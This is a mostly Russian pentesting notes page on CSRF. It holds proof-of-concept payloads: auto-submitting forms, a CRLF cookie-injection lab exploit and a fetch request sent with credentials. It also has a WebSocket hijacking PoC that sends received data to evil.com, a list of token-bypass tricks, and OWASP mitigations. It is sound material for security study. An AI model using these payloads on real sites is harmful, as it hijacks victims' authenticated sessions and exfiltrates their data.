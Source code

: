 # CSRF

## Description

Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated.

## Примеры использования

### Общий

Пример кейса с атакой CSRF: есть сайт с возможностью добавления почты. делаем запрос на добавление почты с другого сайта -> CSRF (токен может быть встроен в страницу, но не проверяться на стороне сервера)

Пример нагрузки:

```markup
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://vulnarable-site.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@email.com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>

```

Другой пример из задания с [PortSwigger Web Academy](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)

```markup
<!DOCTYPE html>
<html>
    <head>
        <title>CSRF Exploit via form</title>
    </head>
    <body>
        <div>Test</div>
        <!-- Inject csrfKey Header -->
        <img src="https://server.net/?search=test%0D%0ASet-Cookie:%20csrfKey=PENWcyjyCcXvvIuUyZF9c8ruxJvKywzW" onerror="document.forms[0].submit()">
        <!-- Submit Form -->
        <form method="POST" action="https://server.net/change-email">
            <input type="hidden" name="email" value="carlos@carlos-montoya.net">
            <input type="hidden" name="csrf" value="vYD0yIuvFYpOnh54szpuhVWA2IFqqnAJ">
        </form>
    </body>
</html>
```

или CSRF Exploit via fetch mechanism

```markup
<!DOCTYPE html>
<html>
    <head>
        <title>CSRF Exploit via js/fetch</title>
    </head>
    <body>
        <div>Test</div>
        <script>
            let data = {
                email: 'carlos-was-here@normal-users.net',
                csrf: 'G3dL0Wq0QSDmZyFTIgcGODJywPgVKR8v'
            };
            fetch("https://server.net/change-email", {
                method: 'POST',
                mode: 'no-cors',
                cache: 'no-cache',
                body: new URLSearchParams(data),
                credentials: 'include',
                headers: {
                    Cookie: 'csrfKey=4dX2Yco3WYR1gnSouSIoMsRP4AZSuFmr;',
                    'Content-Type': 'application/x-www-form-urlencoded'
                },
                redirect: 'follow'
            });
        </script>

    </body>
</html>
```

### XS-Search

Это Side-Channel атака для получения доступа к информации, к которой другие пользователи имеют доступ, а атакующий не имеет

Необходимо:&#x20;

* CSRF
* Возможность предугадывать, есть ли контент или нет

Подробно и примеры:\
[https://book.hacktricks.xyz/pentesting-web/xs-search](https://book.hacktricks.xyz/pentesting-web/xs-search)\
[https://terjanq.github.io/Bug-Bounty/Google/cache-attack-06jd2d2mz2r0/index.html](https://terjanq.github.io/Bug-Bounty/Google/cache-attack-06jd2d2mz2r0/index.html)

### Mistakes

* Проверка CSRF-токена зависит от типа HTTP-запроса

Проверка CSRF-токен может быть включена для POST/PUT-запросов, но выключена для GET-запроса. Можно попробовать все параметры перегнать в GET-параметры и сделать такой запрос.

* Delete CSRF-token

Можем попробовать просто убрать токен из запроса.

* CSRF-токен не привязан к сессии

Можем подставить csrf-токен из другой сессии. А у приложения общий пул CSRF-токенов.



### Cross-Site WebSocket Hijacking

Суть в общем та же: пользователь заходит на нашу страницу, мы пробуем от его лица сделать запрос на открытие вебсокета. PoC:

```markup
<html>
    <body>
        <script src="jquery.min.js"></script>
        <script>
            // open
            var ws = new WebSocket("http://example.com", "chat");
            
            // send
            ws.send("Attacker's message");
            
            // receive
            ws.onmessage = function(event) {
                $.post("evil.com", event.data);
            }
        </script>
    </body>
</html>
```

Запрос будет выглядеть примерно так:

```
 GET /chat HTTP/1.1
 Host: example.com
 Upgrade: websocket
 Connection: Upgrade
 Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
 Origin: http://malicious-site.com
 Sec-WebSocket-Protocol: chat
 Sec-WebSocket-Version: 13
 Cookie: session_id=victim_uuid	
```

## CSRF Testing MindMap

![CSRF Testing MindMap](../../.gitbook/assets/image.png)

## Mitigations

From OWASP: [https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site\_Request\_Forgery\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site\_Request\_Forgery\_Prevention\_Cheat\_Sheet.html)

### Если есть встроенный механизм защиты CSRF — использовать его

### Stateful Software

CSRF tokens should be:

* Unique per user session.
* Secret
* Unpredictable (large random value generated by a [secure method](https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic\_Storage\_Cheat\_Sheet.html#rule---use-cryptographically-secure-pseudo-random-number-generators-csprng)).

Безопаснее передавать CSRF токены в заголовках запроса. Не рекомендуется передавать CSRF токены в query-параметрах (в GET запросах, в частности): токен может утечь разными путями — логи, история браузера.

## Stateless Software

Есть техника Double Submit Cookie.&#x20;

Клиент с каждым запросом шлет случайное значение в куках и то же значение в теле запроса: на стороне сервера эти значения сверяются между собой. При первом посещении сайта, это случайное значение отдается клиенту без привязки к сессии. Можно добавлять шифрование этого токены в сессии или использовании HMAC.&#x20;

## Links & Papers

Подробнее о том как генерируется CSRF-токен и проверяется: [https://learn.javascript.ru/csrf](https://learn.javascript.ru/csrf).
